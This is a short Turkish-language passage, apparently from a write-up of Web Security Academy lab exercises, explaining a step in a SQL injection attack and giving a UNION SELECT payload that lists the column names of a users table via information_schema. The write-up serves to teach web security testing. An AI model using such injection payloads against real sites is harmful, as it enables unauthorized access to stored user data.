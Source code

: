![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%20feb066966c2e47eba3a600afa27d1032/Untitled%2023.png)

Bu kısımdan sonra da “users_nmvfut” için tablo kolon isimlerini öğrenmemiz gerekiyor. 

```html
mdisec' UNION SELECT null,column_name FROM information_schema.columns WHERE table_name='users_nmvfut' -- addf
```

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%20feb066966c2e47eba3a600afa27d1032/Untitled%2024.png)
